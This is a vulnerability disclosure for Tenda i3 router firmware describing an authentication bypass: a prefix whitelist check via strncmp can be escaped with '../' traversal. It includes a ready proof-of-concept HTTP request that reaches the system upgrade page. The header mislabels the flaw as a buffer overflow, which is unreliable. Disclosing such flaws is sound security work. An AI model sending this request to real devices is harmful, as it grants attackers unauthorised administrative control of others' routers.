



# i3 Vulnerability

Vendor:Tenda

Product:i3

Version: V1.0.0.6(2204)

Vulnerability: buffer overflow

Firmware Download:https://www.tenda.com.cn/material/show/2480

Author:Zhang Yifan

## Descriptions

A critical authentication bypass vulnerability exists in the i3 V1.0.0.6(2204) firmware. 

<div  align="center"></div>

The vulnerability is located in the `R7WebsSecurityHandler` function, which acts as the security filter for HTTP requests. 

The application defines a whitelist of URL prefixes (e.g., `/public/`, `/lang/`) that are allowed to be accessed without authentication. The function uses `strncmp` to check if the request URL begins with these trusted prefixes: e.g., `if ( !strncmp(s1, "/public/", 8u) ... return 0;`.

<div  align="center"></div>

However, the application fails to validate or canonicalize the subsequent part of the URL.

 An unauthenticated remote attacker can send a crafted HTTP request that starts with a whitelisted prefix but employs directory traversal sequences (`../`) to escape the restricted directory. For example, a request to `/lang/../system_upgrade.asp` will satisfy the `strncmp` check (bypassing authentication) but will be resolved by the web server to the sensitive `system_upgrade.asp` page, granting full administrative access.


# POC

```
GET /lang/../system_upgrade.asp HTTP/1.1
Host: 192.168.6.2
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=344622411
Connection: keep-alive

```

# Before

<div  align="center"></div>

# After


<div  align="center"></div>
